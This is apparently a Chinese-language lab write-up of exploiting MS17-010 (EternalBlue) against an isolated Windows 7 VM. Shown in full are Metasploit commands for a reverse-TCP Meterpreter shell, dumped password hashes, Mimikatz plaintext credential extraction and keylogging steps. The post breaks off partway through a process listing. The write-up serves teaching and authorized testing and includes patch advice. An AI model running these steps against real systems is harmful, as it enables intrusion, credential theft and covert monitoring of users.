




+++
title= "【攻防实践】MS17-010漏洞利用"
date= "2025-12-30T16:23:12+08:00"
lastmod= "2025-12-30T16:23:12+08:00"
draft=false
author= "leuco"
description= "【1】【待续】利用MS17-010攻击Win7"
keywords= ["MS17-010", "漏洞", "Kali", "Win7"]
categories= ["网络空间安全", "攻防实践"]
tags= ["MS17-010", "漏洞", "Kali", "Win7"]
math=true
image="ms17-010.png"

+++

# MS17-010漏洞利用



## 实践概览

- **名称**：MS17-010漏洞利用
- **目的**：
- **时间**：2025年12月30日
- **风险说明**：本实验在完全隔离的虚拟化实验室环境下进行，仅用于教育或授权测试

## MS17-010漏洞

- **名称**：MS17-010
- **别名**：永恒之蓝（EternalBlue）
- **公开时间**：2017.3.14（补丁发布）；2017.4.14（攻击工具公开）
- **相关CVE**：CVE-2017-0143；CVE-2017-0144；CVE-2017-0145；CVE-2017-0146；CVE-2017-0148 （远程代码执行）；CVE-2017-0147 （信息泄露）
- **相关协议**：服务器消息块 1.0 （SMBv1）
- **相关端口**：TCP **445**（主要）；**139**（次要）
- **漏洞原理**：源于 Windows 内核处理 SMBv1 协议请求的缓冲区溢出。在处理文件扩展属性转换时，系统因错误计算内存大小，导致攻击者可以发送精心构造的数据包，在内核权限下执行任意代码。
- **破坏性**：
  - **无需用户交互**：攻击者只需向目标主机的445端口发送恶意数据包即可入侵，无需用户点击/打开任何文件
  - **危害等级高**：成功利用后攻击者可在目标系统上执行任意操作，如安装恶意程序、窃取数据、加密文件（勒索软件）或创建后门
  - **易于蠕虫化传播**：**WannaCry** 勒索病毒采用的方式，导致其在全球范围内像蠕虫一样自动、快速地蔓延
- **影响范围**：此漏洞影响当时几乎所有未打补丁的 Windows 版本，主要包括：
  - **桌面系统**：Windows XP, Vista, 7, 8, 8.1, Windows 10 (早期版本)
  - **服务器系统**：Windows Server 2003, 2008, 2008 R2, 2012, 2012 R2, 2016
- 漏洞修复：安装官方安全补丁——Windows Update 或访问微软官方安全公告手动下载并安装编号为**KB4013389** 的补丁。或手动：**禁用 SMBv1 协议**、**网络层面封堵**、**使用入侵防御系统（IPS）**、**最小化网络暴露**

## 环境配置

- **虚拟环境**：VMware Workstation 17 Pro - 17.0.0 build-20800274
- **靶机**：
  - **系统**：Windows 7 Enterprise x64
  - **CPU**：11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz (2.30 GHz)
  - **网络**：LAN（IPv4:10.0.0.17/SubnetMask:255.255.255.0/Gateway:NULL/DNS:NULL）
- **攻击机**：
  - **系统**：Linux kali 6.12.25-amd64
  - **CPU**：11th Gen Intel(R) Core(TM) i7-11800H @ 2.30GHz (2.30 GHz)
  - **网络**：LAN（IPv4:10.0.0.223/SubnetMask:255.255.255.0/Gateway:NULL/DNS:NULL）

## 实践步骤

### 隔离网络环境配置与端口扫描

#### 一、在 VMware 中创建并分配 LAN 区段（对 Kali 和 Win7 执行相同操作）：

打开**设置（Setting）** -> 选择**网络适配器（Network Adapter）** -> 右侧点击**LAN区段（LAN Segment）**单选框 -> 点击下方“**LAN区段...**”按钮 -> 在弹出的窗口中点击**添加（Add）** -> 输入名称**“MS17-010_Experiment”** -> 点击**确定** -> 在**下拉菜单**中选中刚刚创建的LAN区段 -> 点击**确定**



#### 二、配置 Win7 的静态IP并关闭防火墙

进入Win7 -> 打开**控制面板** -> **网络和 Internet** -> **网络和共享中心** -> **更改适配器设置** -> 右键点击**本地连接** -> **属性** -> 双击**Internet 协议版本4（TCP/IPv4）** -> 选择使用静态IP地址（IP地址：10.0.0.17 | 子网掩码：255.255.255.0 | 默认网关：空） -> 点击**确定**退出 -> 在**“网络与共享中心”**点击**Windows防火墙** -> 选择**“打开或关闭Windows防火墙”** -> 全部关闭（PS：没打补丁不关闭防火墙也能成功）




#### 三、配置Kali的静态IP地址并测试二者连通性

打开终端 -> `ip addr`指令查看网卡名称（通常为`eth0`） -> 手动分配IP地址：

```bash
sudo systemctl stop NetworkMaager # 关闭NetworkManager服务——Kali 默认运行NetworkManager服务。当手动使用ip命令修改接口状态时，NetworkManager会检测到接口配置发生了变化。如果该接口被它接管，它会根据自己的配置文件（通常是DHCP或“自动连接”）立即重置接口，从而抹掉刚刚手动添加的IP地址
sudo ip addr add 10.0.0.223/24 dev eth0 # 将IP地址10.0.0.223分配给eth0网卡
sudo ip link set eth0 up # 激活eth0网卡，让它开始工作
```

 -> 再次输入`ip addr`验证`eth0`的IP地址 -> 测试两者连通性并进行Namp扫描：

```bash
ping 10.0.0.17 -c 4 # 只发送4个数据包
nmap -n -sV -sC -T4 10.0.0.17 # 不进行DNS解析，使用默认的Nmap脚本探测服务/版本信息
```





#### 四、Nmap扫描结果分析

上述Nmap扫描结果如下所示：

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -n -sV -sC -T4 10.0.0.17
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-31 02:51 UTC
Nmap scan report for 10.0.0.17
Host is up (0.00047s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Enterprise 7600 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:10:6D:B7 (VMware)
Service Info: Host: ANKH-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows 7 Enterprise 7600 (Windows 7 Enterprise 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::-
|   Computer name: Ankh-PC
|   NetBIOS computer name: ANKH-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-12-31T10:52:28+08:00
|_clock-skew: mean: -2h40m00s, deviation: 4h37m07s, median: 0s
|_nbstat: NetBIOS name: ANKH-PC, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:10:6d:b7 (VMware)
| smb2-time: 
|   date: 2025-12-31T02:52:28
|_  start_date: 2025-12-31T02:41:52
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.41 seconds
```

- **靶机信息**

  -  **IP地址**：10.0.0.17

  -  **主机状态**：在线（延迟 0.00047s）

  -  **操作系统**：Windows 7 Enterprise 7600 (版本 6.1)

  - **主机名**：ANKH-PC

  -  **工作组**：WORKGROUP

  - **MAC地址**：00:0C:29:10:6D:B7 (VMware 虚拟机)

  - **系统时间**：UTC+8 (北京时间)

- **开放端口与服务**

  - **135/tcp** - Microsoft Windows RPC (MSRPC)

  - **139/tcp** - Microsoft Windows NetBIOS-SSN

  - **445/tcp** - Microsoft-DS (SMB)

    - Windows 7 Enterprise 7600

    - 工作群组：WORKGROUP

  - **49152-49157/tcp** - Microsoft Windows RPC (MSRPC)

- **SMB安全评估**

  - **身份验证级别**：用户级

  - **消息签名**：已启用但非必需（默认配置）

  - **签名状态**：已禁用（存在风险，但为默认设置，可能面临中间人攻击风险）

  - **尝试账户**：guest

### Metasploit扫描与漏洞利用

#### 一、启动Metasploit框架（root）：

```bash
┌──(root㉿kali)-[~]
└─# msfconsole
Metasploit tip: Save the current environment with the save command, 
future console restarts will use this environment again
                                                  
  +-------------------------------------------------------+
  |  METASPLOIT by Rapid7                                 |
  +---------------------------+---------------------------+
  |      __________________   |                           |
  |  ==c(______(o(______(_()  | |""""""""""""|======[***  |
  |             )=\           | |  EXPLOIT   \            |
  |            // \\          | |_____________\_______    |
  |           //   \\         | |==[msf >]============\   |
  |          //     \\        | |______________________\  |
  |         // RECON \\       | \(@)(@)(@)(@)(@)(@)(@)/   |
  |        //         \\      |  *********************    |
  +---------------------------+---------------------------+
  |      o O o                |        \'\/\/\/'/         |
  |              o O          |         )======(          |
  |                 o         |       .'  LOOT  '.        |
  | |^^^^^^^^^^^^^^|l___      |      /    _||__   \       |
  | |    PAYLOAD     |""\___, |     /    (_||_     \      |
  | |________________|__|)__| |    |     __||_)     |     |
  | |(@)(@)"""**|(@)(@)**|(@) |    "       ||       "     |
  |  = = = = = = = = = = = =  |     '--------------'      |                  
  +---------------------------+---------------------------+                  


       =[ metasploit v6.4.69-dev                          ]
+ -- --=[ 2529 exploits - 1302 auxiliary - 432 post       ]
+ -- --=[ 1672 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > 

```

#### 二、搜索`ms17-010`模块：

```bash
msf6 > search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1     \_ target: Automatic Target                  .                .        .      .
   2     \_ target: Windows 7                         .                .        .      .
   3     \_ target: Windows Embedded Standard 7       .                .        .      .
   4     \_ target: Windows Server 2008 R2            .                .        .      .
   5     \_ target: Windows 8                         .                .        .      .
   6     \_ target: Windows 8.1                       .                .        .      .
   7     \_ target: Windows Server 2012               .                .        .      .
   8     \_ target: Windows 10 Pro                    .                .        .      .
   9     \_ target: Windows 10 Enterprise Evaluation  .                .        .      .
   10  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   11    \_ target: Automatic                         .                .        .      .
   12    \_ target: PowerShell                        .                .        .      .
   13    \_ target: Native upload                     .                .        .      .
   14    \_ target: MOF upload                        .                .        .      .
   15    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   16    \_ AKA: ETERNALROMANCE                       .                .        .      .
   17    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   18    \_ AKA: ETERNALBLUE                          .                .        .      .
   19  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   20    \_ AKA: ETERNALSYNERGY                       .                .        .      .
   21    \_ AKA: ETERNALROMANCE                       .                .        .      .
   22    \_ AKA: ETERNALCHAMPION                      .                .        .      .
   23    \_ AKA: ETERNALBLUE                          .                .        .      .
   24  auxiliary/scanner/smb/smb_ms17_010             .                normal   No     MS17-010 SMB RCE Detection
   25    \_ AKA: DOUBLEPULSAR                         .                .        .      .
   26    \_ AKA: ETERNALBLUE                          .                .        .      .
   27  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
   28    \_ target: Execute payload (x64)             .                .        .      .
   29    \_ target: Neutralize implant                .                .        .      .


Interact with a module by name or index. For example info 29, use 29 or use exploit/windows/smb/smb_doublepulsar_rce                                      
After interacting with a module you can manually set a TARGET with set TARGET 'Neutralize implant'                                                        

msf6 > 
```

以上为metasploit中的ms17-010（永恒之蓝）模块。

- **MS17-010 (永恒之蓝) 漏洞利用套件详解**

  - **主要攻击模块**

    **a. exploit/windows/smb/ms17_010_eternalblue (索引 0-9)**

    - **介绍**： 这是最著名、最直接的攻击模块。它利用SMBv1协议的内核级漏洞，通过越界写入破坏内核内存池，实现远程代码执行。攻击过程直接在内核态进行，极其“暴力”。
    - **漏洞类型**： SMB协议远程内核池破坏漏洞。
    - **利用方式**： 发送特制SMBv1数据包触发内核内存破坏。
    - **目标系统**：
      - Windows 7 / Server 2008 R2（主要目标）
      - Windows 8/8.1 / Server 2012
      - Windows 10 Pro/Enterprise
    - **特点**：
      - **无需任何身份验证**。
      - 对Windows 7/2008 R2成功率较高。
      - 操作风险高：由于直接操作内核内存，若堆喷射失败，极易导致目标系统**蓝屏死机(BSOD)**。
      - 依赖目标开启445端口。
    - **关键参数**： `GroomAllocations`。调整此内存分配参数有时能在攻击失败时提高成功率。

    **b. exploit/windows/smb/ms17_010_psexec (索引 10-18)**

    - **介绍**： 此模块不一定需要凭证。它主要利用**EternalRomance**等漏洞链，通过SMB命名管道中的类型混淆漏洞进行攻击。相比EternalBlue更稳定，是攻击更新系统（如Win10）的首选。
    - **技术集合**： 融合了多个SMB漏洞，包括EternalRomance、EternalSynergy、EternalChampion。
    - **目标类型**：
      - **PowerShell**： 通过PowerShell在内存中执行载荷。
      - **Native upload**： 直接上传可执行文件执行。
      - **MOF upload**： 使用WMI托管对象格式执行。
    - **优点**：
      - 比EternalBlue**更稳定**，几乎不会导致蓝屏。
      - 支持多种载荷传输和执行方式。
      - 如果拥有有效的SMB凭证（即使是普通用户），成功率接近100%。

  -  **辅助模块**

    **a. auxiliary/scanner/smb/smb_ms17_010 (索引 24-26)**

    - **介绍**： **攻击前必备的侦察模块**。用于安全地检测目标主机是否存在MS17-010漏洞，并检查是否已被植入DoublePulsar后门。
    - **功能**：
      - 检测目标是否存在MS17-010漏洞。
      - 检测目标是否已感染DoublePulsar后门。
    - **输出解读**：
      - `VULNERABLE`： 目标存在漏洞，可尝试攻击。
      - `DoublePulsar detected`： 目标已被攻破，内存中驻留有后门。
    - **特点**：
      - 非入侵性，仅用于信息收集。
      - 支持扫描整个网段（`set RHOSTS 192.168.1.0/24`）。

    **b. auxiliary/admin/smb/ms17_010_command (索引 19-23)**

    - **介绍**： 一个轻量级的命令执行模块。不返回交互式Shell，仅执行单条系统命令并返回结果。适用于快速、隐蔽的任务。
    - **功能**： 在已确认存在漏洞或已被控的系统上执行命令。
    - **用途**：
      - 后渗透阶段快速执行命令（如`whoami`、添加用户）。
      - 在不建立持久连接的情况下进行操作。
      - 同样支持EternalRomance等多种利用方式。

  -  **后门利用模块**

    **exploit/windows/smb/smb_doublepulsar_rce (索引 27-29)**

    - **DoublePulsar是什么**： 一个隐蔽的、无文件落地的内存SMB后门，通常由EternalBlue攻击成功后植入。
    - **核心功能**：
      - **Execute payload**： 若发现目标已存在DoublePulsar后门，可直接通过此后门注入DLL或执行代码，**无需再次触发原始漏洞**。
      - **Neutralize implant**： 在渗透测试结束后，专业地**清除**内存中的后门痕迹。
    - **目标选项**：
      - **注入载荷**： 利用现有后门执行代码。
      - **清除后门**： 卸载DoublePulsar植入物。

  -  **高级配置选项（通用）**

    这些参数在多数相关模块中通用：

    - **`RHOST` / `RHOSTS`**： 目标IP地址或IP范围（如`192.168.1.10`或`192.168.1.0/24`）。
    - **`RPORT`**： SMB服务端口，默认为`445`。
    - **`SMBUser` / `SMBPass`**： SMB用户名和密码（对于`psexec`模块尤其重要）。
    - **`VERIFY_ARCH`**： 是否验证目标系统架构（64位/32位）。
    - **`VERIFY_TARGET`**： 是否验证目标操作系统版本。
    - **`GroomAllocations`**： **(EternalBlue专用)** 调整初始内存分配请求的数量，以影响内核内存布局。

#### 三、探测目标主机

```bash
msf6 > use 24
msf6 auxiliary(scanner/smb/smb_ms17_010) > set rhost 10.0.0.17
rhost => 10.0.0.17
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
[+] 10.0.0.17:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.0.0.17:445         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_ms17_010) > 
```

关键信息：`Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)`

#### 四、漏洞利用

切换`exploit`模块 -> 设置靶机IP -> 设置攻击机IP -> 设置载荷 -> 检察配置信息 -> `run` -> 权限验证

```bash
msf6 auxiliary(scanner/smb/smb_ms17_010) > use 0
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.0.0.17
rhost => 10.0.0.17
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.0.0.223
lhost => 10.0.0.223
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.0.0.17        yes       The target host(s), see https:
                                             //docs.metasploit.com/docs/usi
                                             ng-metasploit/basics/using-met
                                             asploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain
                                             to use for authentication. Onl
                                             y affects Windows Server 2008
                                             R2, Windows 7, Windows Embedde
                                             d Standard 7 target machines.
   SMBPass                         no        (Optional) The password for th
                                             e specified username
   SMBUser                         no        (Optional) The username to aut
                                             henticate as
   VERIFY_ARCH    true             yes       Check if remote architecture m
                                             atches exploit Target. Only af
                                             fects Windows Server 2008 R2,
                                             Windows 7, Windows Embedded St
                                             andard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exp
                                             loit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7,
                                              Windows Embedded Standard 7 t
                                             arget machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh,
                                        thread, process, none)
   LHOST     10.0.0.223       yes       The listen address (an interface ma
                                        y be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


View the full module info with the info, or info -d command.
```

PS：漏洞利用（Exploit）只是打开大门的“钥匙”，载荷（Payload）是进门之后要执行的任务。Metasploit 将默认Payload设置为`windows/x64/meterpreter/reverse_tcp`。其中`windows/x64`指明靶机系统是64位 windows 系统；`meterpreter`是 Metasploit 的“王牌”载荷，运行在内存中，不写入硬盘（难以被察觉），且提供了极其丰富的内置命令（如 `hashdump`, `screenshot`, `webcam_snap`），远比普通的 CMD 命令行强大；`reverse_tcp`指明使用反向TCP连接，用于绕过防火墙，同时确保在复杂的网络环境下，攻击载荷能稳定地传输和通信，不会轻易断开连接。

PS：设置反向连接后，需要指定`lhost`参数，以指定靶机出发漏洞后能够成功连接回攻击机

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.0.0.223:4444 
[*] 10.0.0.17:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.0.0.17:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600 x64 (64-bit)
[*] 10.0.0.17:445         - Scanned 1 of 1 hosts (100% complete)
[+] 10.0.0.17:445 - The target is vulnerable.
[*] 10.0.0.17:445 - Connecting to target for exploitation.
[+] 10.0.0.17:445 - Connection established for exploitation.
[+] 10.0.0.17:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.0.0.17:445 - CORE raw buffer dump (25 bytes)
[*] 10.0.0.17:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70  Windows 7 Enterp
[*] 10.0.0.17:445 - 0x00000010  72 69 73 65 20 37 36 30 30                       rise 7600       
[+] 10.0.0.17:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.0.0.17:445 - Trying exploit with 12 Groom Allocations.
[*] 10.0.0.17:445 - Sending all but last fragment of exploit packet
[*] 10.0.0.17:445 - Starting non-paged pool grooming
[+] 10.0.0.17:445 - Sending SMBv2 buffers
[+] 10.0.0.17:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.0.0.17:445 - Sending final SMBv2 buffers.
[*] 10.0.0.17:445 - Sending last fragment of exploit packet!
[*] 10.0.0.17:445 - Receiving response from exploit packet
[+] 10.0.0.17:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.0.0.17:445 - Sending egg to corrupted connection.
[*] 10.0.0.17:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.0.0.17
[*] Meterpreter session 1 opened (10.0.0.223:4444 -> 10.0.0.17:49161) at 2025-12-31 05:39:27 +0000
[+] 10.0.0.17:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.0.17:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.0.0.17:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

PS：当前权限——`NT AUTHORITY\SYSTEM` 权限（通常简称为 **System 权限**）是 Windows 操作系统中的最高权限。在 Windows 安全模型中，`SYSTEM` 账户（也称为本地系统账户）是操作系统内核及其核心服务运行的身份。

- **它比管理员（Administrator）更高级**：Administrator 仍然受用户帐户控制（UAC）的限制，而 SYSTEM 账户不受任何限制。
- **权限范围**：它拥有对本地计算机上**所有资源**（文件、注册表、进程、硬件）的完整访问权限。

现在，攻击机可以进行以下行为：

- **读取所有用户的文件**：Kali可以进入 `C:\Users\` 下任何一个文件夹（如 Administrator 或其他普通用户），读取他们的桌面、文档和隐私文件。
- **控制所有进程**：Kali可以杀死防火墙进程、杀毒软件进程，或者将你的恶意程序注入到任何系统进程（如 `lsass.exe`）中。
- **操作注册表**：Kali可以修改系统的核心配置，甚至破坏系统引导。
- **获取明文密码**：只有在 SYSTEM 权限下，Kali才能使用 `load kiwi` (Mimikatz) 从内存中提取出其他已登录用户的明文密码。
- **权限降级（伪装）**：Kali可以随意切换到任何一个普通用户的身份（通过 `impersonate_token`），看看他们在电脑上留下了什么。

### 典型的“后渗透”攻击行为

#### 一、凭据窃取

##### 1. 导出哈希值（Hashdump）

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Ankh:1000:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:e19302c2cb502fb48256d5cfbb575047:::
```

PS：这是靶机用户登陆密码的NTLM哈希。攻击者即使不知道明文，也可以通过“哈希传递攻击（Pass-the-Hash）”直接登录其他机器

##### 2. 抓取内存中的明文密码（Mimikatz）

`load kiwi # 加载增强版的Mimikatz`  -> `creds_all # 尝试提取所有凭证`

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                 NTLM               SHA1
--------  ------   --                 ----               ----
Ankh      Ankh-PC  44efce164ab921caa  32ed87bdb5fdc5e9c  6ed5833cf35286ebf8
                   ad3b435b51404ee    ba88547376818d4    662b7b5949f0d742bb
                                                         ec3f

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
ANKH-PC$  WORKGROUP  (null)
Ankh      Ankh-PC    123456

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Ankh      Ankh-PC  123456

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Ankh      Ankh-PC    123456
ankh-pc$  WORKGROUP  (null)
```

PS：在Win7中，攻击者通常能够直接看到**Password**一栏显示了明文密码，这是由于Win7默认将凭据存储在lsass进程内存中，且未加密。SYSTEM权限可以直接读取它。

#### 二、隐私监控与取证（Monitoring）

##### 1、实时屏幕截图

```bash
meterpreter > screenshot
Screenshot saved to: /root/ZuMWyRDh.jpeg
```



##### 2. 键盘记录（Keylogging）

如果当前是System权限则切换到用户权限 -> `keyscan_start # 开启键盘监听` -> Ankh用户输入`Hello?` -> `keyscan_dump # Kali屏幕输出记录下的按键` -> `keyscan_stop # 停止监听`

```bash
meterpreter > getuid # 查看当前权限：SYSTEM
Server username: NT AUTHORITY\SYSTEM
meterpreter > ps # 查看进程列表，Session 1通常代表用户

Process List
============

 PID   PPID  Name        Arch  Session  User              Path
 ---   ----  ----        ----  -------  ----              ----
 0     0     [System Pr
             ocess]
 4     0     System      x64   0
 268   4     smss.exe    x64   0        NT AUTHORITY\SYS  \SystemRoot\Syste
                                        TEM               m32\smss.exe
